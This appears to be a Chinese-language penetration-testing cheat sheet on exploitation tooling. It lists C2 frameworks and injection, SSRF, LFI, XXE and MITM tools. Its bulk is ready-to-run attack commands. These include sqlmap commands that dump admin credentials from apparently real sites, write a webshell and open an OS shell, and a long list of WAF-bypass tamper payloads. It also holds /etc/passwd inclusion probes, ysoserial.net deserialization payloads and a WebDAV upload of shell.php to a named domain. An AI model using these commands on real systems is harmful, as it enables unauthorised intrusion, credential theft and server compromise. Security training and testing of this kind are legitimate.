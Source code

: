 漏洞利用
========================================

漏洞查询
----------------------------------------
- searchsploit
	+ ``更新：searchsploit -u`` 
	+ ``poc位置：linux/remote/13853.pl``
	+ ``下载：searchsploit -m php/webapps/7185.php`` 

C2服务器
----------------------------------------
- `Ninja <https://github.com/ahmedkhlief/Ninja/>`_
- `Covenant <https://github.com/cobbr/Covenant>`_
- `WSC2 <https://github.com/ver007/WSC2>`_
- `Cobalt Strike <https://blog.cobaltstrike.com/category/cobalt-strike-2/>`_
- `GRAT2 <https://github.com/r3nhat/GRAT2.git>`_
- `MeetC2 <https://github.com/CMatri/MeetC2>`_

web代理
----------------------------------------
- burpsuite
- Yakit
	+ 项目地址：``https://github.com/yaklang/yakit``
	+ Burpsuite 的年轻中国挑战者。

补丁比对
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `Zynamics Bindiff <https://dl.google.com/dl/zynamics/bindiff430.msi>`_
- `turbodiff <https://www.coresecurity.com/corelabs-research/open-source-tools/turbodiff>`_
- `patchdiff2 <https://code.google.com/archive/p/patchdiff2/downloads>`_
- `diaphora <http://diaphora.re/>`_

数据库注入
----------------------------------------
- SQLMap
	+ 默认选择不询问用户输入
		- ``--batch``
	+ 显示注入详细信息
		- ``-v``
	+ 指定数据库类型为mysql，级别为3（共5级，级别越高，检测越全面）
		- ``sqlmap -u http://www.vuln.cn/post.php?id=1  –dbms mysql –level 3``
	+ cookie注入
		- ``sqlmap -u http://www.baidu.com/shownews.asp –cookie “id=11” –level 2``
	+ 列举数据库管理系统中的用户
		- ``–users``
	+ 列举并破解数据库管理系统用户密码Hash值
		- ``--passwords -v 1``
	+ 列举数据库管理系统的用户权限
		- ``–privileges``
	+ 指定注入技术
		- ``--technique B/T/E/U/S``，分别为布尔注入，时间盲注，报错注入，联合查询注入，堆查询注入
	+ POST注入
		- ``sqlmap -u http://vip.fj0730.cn/login.asp --forms`` 
	+ POST查找数据库
		- ``sqlmap -u http://vip.fj0730.cn/login.asp --forms --dbs`` 
	+ POST查找当前的数据库
		- ``sqlmap -u http://vip.fj0730.cn/login.asp --forms --current-db`` 
	+ POST查找表名
		- ``sqlmap -u http://vip.fj0730.cn/login.asp --forms -D vip_0730 --tables`` 
	+ POST查找列名
		- ``sqlmap -u http://vip.fj0730.cn/login.asp --forms -D vip_0730 -T admin --columns`` 
	+ POST爆出数据
		- ``sqlmap -u http://vip.fj0730.cn/login.asp --forms -D vip_0730 -T admin -C user_name,user_pwd --dump`` 
	+ POST指定表单
		- ``sqlmap -u http://vip.fj0730.cn/login.asp --data "userid=aaa&passwd=bbbb"`` 
	+ POST加载文件
		- ``sqlmap -r "post.txt" -p n --dbs`` 
	+ POST查找当前数据库
		- ``--current-db`` 
	+ 读取与写入文件
		- 前提：首先找需要网站的物理路径，其次需要有可写或可读权限.
		- 读取文件：``sqlmap -u "http:/192.168.3.2/Less-1/?id=1" --file-read "C:/post.txt"``
		- 写入文件：``sqlmap -r "c:\request.txt" –dbms mysql --file-dest "c:\www\webshell.php" --file-write "f:\local.php"``
	+ 执行命令
		- ``sqlmap -u http://192.168.159.1/news.php?id=1 --os-cmd=ipconfig`` 
	+ 使用shell命令
		- ``sqlmap -r “c:\tools\request.txt” -p id –dms mysql –-os-shell``
	+ tamper脚本
		::
		
			注：可以同时使用多个脚本，tamper存储在/usr/share/sqlmap/tamper下。
			apostrophemask.py
			适用数据库：ALL
			作用：将引号替换为utf-8，用于过滤单引号
			使用脚本前：tamper("1 AND '1'='1")
			使用脚本后：1 AND %EF%BC%871%EF%BC%87=%EF%BC%871

			base64encode.py
			适用数据库：ALL
			作用：替换为base64编码
			使用脚本前：tamper("1' AND SLEEP(5)#")
			使用脚本后：MScgQU5EIFNMRUVQKDUpIw==

			multiplespaces.py
			适用数据库：ALL
			作用：围绕sql关键字添加多个空格
			使用脚本前：tamper('1 UNION SELECT foobar')
			使用脚本后：1 UNION SELECT foobar

			space2plus.py
			适用数据库：ALL
			作用：用加号替换空格
			使用脚本前：tamper('SELECT id FROM users')
			使用脚本后：SELECT+id+FROM+users

			nonrecursivereplacement.py
			适用数据库：ALL
			作用：作为双重查询语句，用双重语句替代预定义的sql关键字（适用于非常弱的自定义过滤器，例如将select替换为空）
			使用脚本前：tamper('1 UNION SELECT 2--')
			使用脚本后：1 UNIOUNIONN SELESELECTCT 2--

			space2randomblank.py
			适用数据库：ALL
			作用：将空格替换为其他有效字符
			使用脚本前：tamper('SELECT id FROM users')
			使用脚本后：SELECT%0Did%0DFROM%0Ausers

			unionalltounion.py
			适用数据库：ALL
			作用：将union allselect 替换为unionselect
			使用脚本前：tamper('-1 UNION ALL SELECT')
			使用脚本后：-1 UNION SELECT

			securesphere.py
			适用数据库：ALL
			作用：追加特定的字符串
			使用脚本前：tamper('1 AND 1=1')
			使用脚本后：1 AND 1=1 and '0having'='0having'

			space2dash.py
			适用数据库：ALL
			作用：将空格替换为--，并添加一个随机字符串和换行符
			使用脚本前：tamper('1 AND 9227=9227')
			使用脚本后：1--nVNaVoPYeva%0AAND--ngNvzqu%0A9227=9227

			space2mssqlblank.py
			适用数据库：Microsoft SQL Server
			测试通过数据库：Microsoft SQL Server 2000、Microsoft SQL Server 2005
			作用：将空格随机替换为其他空格符号('%01', '%02', '%03', '%04', '%05', '%06', '%07', '%08', '%09', '%0B', '%0C', '%0D', '%0E', '%0F', '%0A')
			使用脚本前：tamper('SELECT id FROM users')
			使用脚本后：SELECT%0Eid%0DFROM%07users

			between.py
			测试通过数据库：Microsoft SQL Server 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0
			作用：用NOT BETWEEN 0 AND #替换>
			使用脚本前：tamper('1 AND A > B--')
			使用脚本后：1 AND A NOT BETWEEN 0 AND B--

			percentage.py
			适用数据库：ASP
			测试通过数据库：Microsoft SQL Server 2000, 2005、MySQL 5.1.56, 5.5.11、PostgreSQL 9.0
			作用：在每个字符前添加一个%
			使用脚本前：tamper('SELECT FIELD FROM TABLE')
			使用脚本后：%S%E%L%E%C%T %F%I%E%L%D %F%R%O%M %T%A%B%L%E

			sp_password.py
			适用数据库：MSSQL
			作用：从T-SQL日志的自动迷糊处理的有效载荷中追加sp_password
			使用脚本前：tamper('1 AND 9227=9227-- ')
			使用脚本后：1 AND 9227=9227-- sp_password

			charencode.py
			测试通过数据库：Microsoft SQL Server 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0
			作用：对给定的payload全部字符使用url编码（不处理已经编码的字符）
			使用脚本前：tamper('SELECT FIELD FROM%20TABLE')
			使用脚本后：%53%45%4C%45%43%54%20%46%49%45%4C%44%20%46%52%4F%4D%20%54%41%42%4C%45

			randomcase.py
			测试通过数据库：Microsoft SQL Server 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0
			作用：随机大小写
			使用脚本前：tamper('INSERT')
			使用脚本后：INseRt

			charunicodeencode.py
			适用数据库：ASP、ASP.NET
			测试通过数据库：Microsoft SQL Server 2000/2005、MySQL 5.1.56、PostgreSQL 9.0.3
			作用：适用字符串的unicode编码
			使用脚本前：tamper('SELECT FIELD%20FROM TABLE')
			使用脚本后：%u0053%u0045%u004C%u0045%u0043%u0054%u0020%u0046%u0049%u0045%u004C%u0044%u0020%u0046%u0052%u004F%u004D%u0020%u0054%u0041%u0042%u004C%u0045

			space2comment.py
			测试通过数据库：Microsoft SQL Server 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0
			作用：将空格替换为/**/
			使用脚本前：tamper('SELECT id FROM users')
			使用脚本后：SELECT/**/id/**/FROM/**/users

			equaltolike.py
			测试通过数据库：Microsoft SQL Server 2005、MySQL 4, 5.0 and 5.5
			作用：将=替换为LIKE
			使用脚本前：tamper('SELECT * FROM users WHERE id=1')
			使用脚本后：SELECT * FROM users WHERE id LIKE 1

			equaltolike.py
			测试通过数据库：MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0
			作用：将>替换为GREATEST，绕过对>的过滤
			使用脚本前：tamper('1 AND A > B')
			使用脚本后：1 AND GREATEST(A,B+1)=A

			ifnull2ifisnull.py
			适用数据库：MySQL、SQLite (possibly)、SAP MaxDB (possibly)
			测试通过数据库：MySQL 5.0 and 5.5
			作用：将类似于IFNULL(A, B)替换为IF(ISNULL(A), B, A)，绕过对IFNULL的过滤
			使用脚本前：tamper('IFNULL(1, 2)')
			使用脚本后：IF(ISNULL(1),2,1)

			modsecurityversioned.py
			适用数据库：MySQL
			测试通过数据库：MySQL 5.0
			作用：过滤空格，使用mysql内联注释的方式进行注入
			使用脚本前：tamper('1 AND 2>1--')
			使用脚本后：1 /*!30874AND 2>1*/--

			space2mysqlblank.py
			适用数据库：MySQL
			测试通过数据库：MySQL 5.1
			作用：将空格替换为其他空格符号('%09', '%0A', '%0C', '%0D', '%0B')
			使用脚本前：tamper('SELECT id FROM users')
			使用脚本后：SELECT%0Bid%0DFROM%0Cusers

			modsecurityzeroversioned.py
			适用数据库：MySQL
			测试通过数据库：MySQL 5.0
			作用：使用内联注释方式（/*!00000*/）进行注入
			使用脚本前：tamper('1 AND 2>1--')
			使用脚本后：1 /*!00000AND 2>1*/--

			space2mysqldash.py
			适用数据库：MySQL、MSSQL
			作用：将空格替换为 -- ，并追随一个换行符
			使用脚本前：tamper('1 AND 9227=9227')
			使用脚本后：1--%0AAND--%0A9227=9227

			bluecoat.py
			适用数据库：Blue Coat SGOS
			测试通过数据库：MySQL 5.1,、SGOS
			作用：在sql语句之后用有效的随机空白字符替换空格符，随后用LIKE替换=
			使用脚本前：tamper('SELECT id FROM users where id = 1')
			使用脚本后：SELECT%09id FROM users where id LIKE 1

			versionedkeywords.py
			适用数据库：MySQL
			测试通过数据库：MySQL 4.0.18, 5.1.56, 5.5.11
			作用：注释绕过
			使用脚本前：tamper('1 UNION ALL SELECT NULL, NULL, CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,100,114,117,58))#')
			使用脚本后：1/*!UNION*//*!ALL*//*!SELECT*//*!NULL*/,/*!NULL*/, CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER()/*!AS*//*!CHAR*/),CHAR(32)),CHAR(58,100,114,117,58))#

			halfversionedmorekeywords.py
			适用数据库：MySQL < 5.1
			测试通过数据库：MySQL 4.0.18/5.0.22
			作用：在每个关键字前添加mysql版本注释
			使用脚本前：tamper("value' UNION ALL SELECT CONCAT(CHAR(58,107,112,113,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,97,110,121,58)), NULL, NULL# AND 'QDWa'='QDWa")
			使用脚本后：value'/*!0UNION/*!0ALL/*!0SELECT/*!0CONCAT(/*!0CHAR(58,107,112,113,58),/*!0IFNULL(CAST(/*!0CURRENT_USER()/*!0AS/*!0CHAR),/*!0CHAR(32)),/*!0CHAR(58,97,110,121,58)),/*!0NULL,/*!0NULL#/*!0AND 'QDWa'='QDWa


			space2morehash.py
			适用数据库：MySQL >= 5.1.13
			测试通过数据库：MySQL 5.1.41
			作用：将空格替换为#，并添加一个随机字符串和换行符
			使用脚本前：tamper('1 AND 9227=9227')
			使用脚本后：1%23ngNvzqu%0AAND%23nVNaVoPYeva%0A%23lujYFWfv%0A9227=9227

			apostrophenullencode.py
			适用数据库：ALL
			作用：用非法双字节Unicode字符替换单引号
			使用脚本前：tamper("1 AND '1'='1")
			使用脚本后：1 AND %00%271%00%27=%00%271

			appendnullbyte.py
			适用数据库：ALL
			作用：在有效载荷的结束位置加载null字节字符编码
			使用脚本前：tamper('1 AND 1=1')
			使用脚本后：1 AND 1=1%00

			chardoubleencode.py
			适用数据库：ALL
			作用：对给定的payload全部字符使用双重url编码（不处理已经编码的字符）
			使用脚本前：tamper('SELECT FIELD FROM%20TABLE')
			使用脚本后：%2553%2545%254C%2545%2543%2554%2520%2546%2549%2545%254C%2544%2520%2546%2552%254F%254D%2520%2554%2541%2542%254C%2545

			unmagicquotes.py
			适用数据库：ALL
			作用：用一个多字节组合%bf%27和末尾通用注释一起替换空格
			使用脚本前：tamper("1' AND 1=1")
			使用脚本后：1%bf%27 AND 1=1--

			randomcomments.py
			适用数据库：ALL
			作用：用注释符分割sql关键字
			使用脚本前：tamper('INSERT')
			使用脚本后：I/**/N/**/SERT

- `bbqsql <https://github.com/Neohapsis/bbqsql>`_

非结构化数据库注入
----------------------------------------
- `NoSQLAttack <https://github.com/youngyangyang04/NoSQLAttack>`_
- `NoSQLMap <https://github.com/codingo/NoSQLMap>`_
- `Nosql Exploitation Framework <https://github.com/torque59/Nosql-Exploitation-Framework>`_
- `MongoDB audit <https://github.com/stampery/mongoaudit>`_

数据库漏洞利用
----------------------------------------
- `mysql unsha1 <https://github.com/cyrus-and/mysql-unsha1>`_

XSS
----------------------------------------
- `BeEF <https://github.com/beefproject/beef>`_
- `XSS Reciver <https://github.com/firesunCN/BlueLotus_XSSReceiver>`_
- `DSXS <https://github.com/stamparm/DSXS>`_
- `XSStrike <https://github.com/s0md3v/XSStrike>`_
- `xsssniper <https://github.com/gbrindisi/xsssniper>`_
- `tracy <https://github.com/nccgroup/tracy>`_
- `crlfuzz <https://github.com/dwisiswant0/crlfuzz>`_
- `CRLF-Injection-Scanner <https://github.com/MichaelStott/CRLF-Injection-Scanner>`_

SSRF
----------------------------------------
- `SSRFmap <https://github.com/swisskyrepo/SSRFmap>`_
- `SSRF Proxy <https://github.com/bcoles/ssrf_proxy>`_
- `Gopherus <https://github.com/tarunkant/Gopherus>`_
- `SSRF Testing <https://github.com/cujanovic/SSRF-Testing>`_

模版注入
----------------------------------------
- `tplmap <https://github.com/epinna/tplmap>`_

命令注入
----------------------------------------
- `commix <https://github.com/commixproject/commix>`_

LFI
----------------------------------------
- `LFISuite <https://github.com/D35m0nd142/LFISuite>`_
- `FDsploit <https://github.com/chrispetrou/FDsploit>`_
	+ 目录遍历漏洞发现
		| ``python3 fdsploit.py -u http://192.168.100.106/index.php?page=about -d 8``
	+ LFI漏洞发现
		| ``python3 fdsploit.py -u http://192.168.100.106/index.php?page=about -d 7 -k root -p /etc/passwd``
		| -k 响应包中搜索关键字
		| -p 指定包含的文件
		| -d 指定路径包含的深度
- burpsuite
	+ Intruder->Sniper
		::
		
			file=§1§/etc/passwd
			选择Sniper攻击方式，payload type选择Character blocks
			Base string:../
			Min length:0
			Max length:20
			step:1

DNS 隧道
----------------------------------------
- `dnstunnel de <https://dnstunnel.de/>`_
- `iodine <https://code.kryo.se/iodine/>`_
- `dnscat2 <https://github.com/iagox86/dnscat2>`_

XXE
----------------------------------------
- `XXEinjector <https://github.com/enjoiz/XXEinjector>`_
- `XXER <https://github.com/TheTwitchy/xxer>`_

反序列化
----------------------------------------
+ php序列化
	- `phpggc <https://github.com/wh1t3p1g/phpggc>`_
+ java序列化工具
	- Ysomap
		+ 地址：``https://github.com/wh1t3p1g/ysomap``
		+ 帮助：``https://github.com/wh1t3p1g/ysomap/wiki/YSOMAP%E9%A3%9F%E7%94%A8%E6%8C%87%E5%8C%97``
	- java ysoserial：``https://github.com/frohoff/ysoserial``
	- JRE8u20 RCE Gadget：``https://github.com/pwntester/JRE8u20_RCE_Gadget``
	- Java Serialization Dumper：``https://github.com/NickstaDB/SerializationDumper``
	- gadgetinspector <https://github.com/JackOfMostTrades/gadgetinspector>`_ A byte code analyzer for finding deserialization gadget chains in Java applications
+ c# .net序列化工具
	- `.net ysoserial <https://github.com/pwntester/ysoserial.net>`_
		::
		
			./ysoserial.exe -p DotNetNuke -M run_command -C calc.exe
			./ysoserial.exe -f BinaryFormatter -g PSObject -o base64 -c "calc" -t
			./ysoserial.exe -f Json.Net -g ObjectDataProvider -o raw -c "calc" -t
			./ysoserial.exe -p DotNetNuke -M run_command -C calc.exe
			./ysoserial.exe -p DotNetNuke -m read_file -f win.ini
			./ysoserial.exe -g ClaimsPrincipal -f BinaryFormatter -c foobar -bgc ActivitySurrogateDisableTypeCheck --minify --ust

中间人攻击
----------------------------------------
- `mitmproxy <https://github.com/mitmproxy/mitmproxy>`_
- `MITMf <https://github.com/byt3bl33d3r/MITMf>`_
- `ssh mitm <https://github.com/jtesta/ssh-mitm>`_
- `injectify <https://github.com/samdenty99/injectify>`_
- `Responder <https://github.com/lgandx/Responder>`_ Responder is a LLMNR, NBT-NS and MDNS poisoner, with built-in HTTP/SMB/MSSQL/FTP/LDAP rogue authentication server supporting NTLMv1/NTLMv2/LMv2, Extended Security NTLMSSP and Basic HTTP authentication. 

webdav利用
----------------------------------------
- webdav批量扫描：IISPutScanner
- `webdav利用工具 <http://www.webdav.org/cadaver/>`_
	+ ``cadaver http://door.legacyhangtuah.com/webdav/``
	+ 上传webshell: ``put shell.php``